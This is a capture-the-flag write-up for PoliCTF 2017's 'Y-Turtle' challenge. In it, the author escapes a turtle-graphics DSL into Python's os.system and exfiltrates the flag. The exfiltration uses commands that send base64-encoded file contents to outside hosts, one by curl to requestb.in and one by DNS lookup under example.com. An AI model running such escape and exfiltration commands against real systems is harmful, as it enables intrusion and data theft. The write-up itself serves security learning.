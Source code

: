 ```yaml
---
layout: post
ctf: "PoliCTF 2017"
title: "PoliCTF 2017 - Y-Turle - Grab Bag"
---
```


>A new cyber-artistic collective had fun experimenting with metaprogramming and domain specific languages. Here thre is a first, broken, implementation of a Turtle graphic engine.
>http://yturtle.chall.polictf.it

This challenge was about breaking out of an environnement that provided a DSL to create an image output using turtle graphics.


<img src="https://i.imgur.com/T4VCWjv.png" />

Since the description hinted about metaprogramming, I tried executing function that would be associated to common dynamic languages.

```
(instance_eval "move(5)") ; returned nothing, it's not Ruby
```

```
(move (chr "A")); made the cursor move 41 pixels. chr is very Pythonic function
```

```
(import time)
(time.sleep 10) ; delays the response by 10 seconds
```

Can we use `os.system`? Of course!

```
(import os)
(os.system "sleep 10") ; delays the response by 10 seconds
```

Since I was not able to get the output of the commands I was running, I tried using an external server.

```
(import os)
(os.system "curl http://requestb.in/XXXXXX?x=$(ls|base64)") ; response hangs
```

Access to internet is probably blocked. I then tried using DNS which turned out not to be blocked.

```
(import os)
(os.system "host $(cat flag*|base64).example.com")
```
The server receives a DNS query for the subdomain `ZmxhZ3tzaGFfbWFfbmFfbmFfbmFfc2hhbWFfbmFfbmFfbmFfbmF9Cg==` which decodes to the flag `flag{sha_ma_na_na_na_shama_na_na_na_na}`.

Becojo - Northern Coalition
